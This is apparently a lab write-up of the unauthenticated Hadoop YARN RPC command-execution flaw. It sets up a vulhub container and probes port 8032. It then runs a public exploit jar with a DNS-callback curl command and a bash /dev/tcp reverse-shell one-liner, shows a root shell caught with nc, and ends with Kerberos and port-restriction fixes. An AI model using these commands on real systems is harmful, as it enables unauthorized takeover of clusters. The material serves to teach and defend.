



# Unauthorized Access Vulnerability in Hadoop Yarn RPC

## Vulnerability Overview

Hadoop Yarn, as one of the core components of Hadoop, is responsible for allocating resources to various clusters and running various applications, and scheduling the execution of tasks on different cluster nodes. Hadoop Yarn opens its RPC service to the public by default, and attackers can use the RPC service to execute arbitrary commands and control the server.

In addition, since the access control mechanism of Hadoop Yarn RPC service is different from that of REST API, even if there is authorization authentication in REST API, the port where RPC service is located can still be accessed without authorization.

## Environment Setup

> https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

You need to modify the docker-compose.yml to add the 8032 port mapping.



Make a curl request to port 8032.

```
[root@localhost tmp]# curl http://192.168.32.183:8032
It looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.
```


## Vulnerability Exploitation

EXP: https://github.com/cckuailong/YarnRpcRCE

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "curl 0dccw6.dnslog.cn"
log4j:WARN No appenders could be found for logger (org.apache.hadoop.util.Shell).
log4j:WARN Please initialize the log4j system properly.
log4j:WARN See http://logging.apache.org/log4j/1.2/faq.html#noconfig for more info.
```



View logs



Reverse shell

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "bash -i >& /dev/tcp/192.168.32.183/9999 0>&1"
```

Successful connection

```
[root@localhost tmp]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.19.0.5.
Ncat: Connection from 172.19.0.5:59812.
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
<00863_0003/container_1658816800863_0003_01_000001# whoami
whoami
root
<00863_0003/container_1658816800863_0003_01_000001# 
```


## Vulnerability Fix

1. The official Apache Hadoop recommends that users enable Kerberos authentication.
2. Set the port where Hadoop RPC service is located to be open only to trusted addresses.
3. It is recommended to upgrade and enable the authentication function of Kerberos to prevent unauthorized access.